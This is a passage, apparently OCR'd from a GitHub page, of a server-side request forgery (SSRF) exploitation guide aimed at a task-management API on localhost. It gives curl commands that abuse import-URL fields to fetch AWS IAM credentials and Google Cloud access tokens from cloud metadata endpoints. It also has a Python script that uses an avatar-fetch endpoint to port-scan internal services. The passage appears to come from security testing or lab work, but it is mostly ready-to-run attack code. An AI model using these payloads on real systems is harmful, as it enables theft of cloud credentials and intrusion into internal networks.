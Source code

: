    ```bash
        -H "Content-Type: application/json" \
        -d '{"importUrl":"http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME","format":"json"}'
   ```

2. **Google Cloud Metadata**
   ```bash
   # Get access token
   curl -X POST http://localhost:3000/api/tasks/import \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"importUrl":"http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token","format":"json"}'
   
   # Get project information
   curl -X POST http://localhost:3000/api/tasks/import \
        -H "Authorization: Bearer $TOKEN" \
        -H "Content-Type: application/json" \
        -d '{"importUrl":"http://metadata.google.internal/computeMetadata/v1/project/project-id","format":"json"}'
   ```

### Phase 3: Internal Service Discovery

1. **Port Scanning Script**
   ```python
   import requests
   import json
   
   def scan_internal_ports(token, target_ip="localhost", ports=None):
       if ports is None:
           ports = [22, 80, 443, 3306, 5432, 6379, 8080, 9200, 27017]
       
       headers = {
           'Authorization': f'Bearer {token}',
           'Content-Type': 'application/json'
       }
       
       open_ports = []
       
       for port in ports:
           payload = {
               'imageUrl': f'http://{target_ip}:{port}',
               'fetchFromUrl': True
           }
           
           try:
               response = requests.post(
                   'http://localhost:3000/api/users/avatar',
                   headers=headers,
                   json=payload,
                   timeout=5
               )
               
               if response.status_code == 200:
                   open_ports.append(port)
                   print(f"Port {port}: OPEN")
               else:
                   print(f"Port {port}: CLOSED or FILTERED")
                   
           except requests.exceptions.RequestException as e:
               print(f"Port {port}: ERROR - {e}")
       
       return open_ports
   ```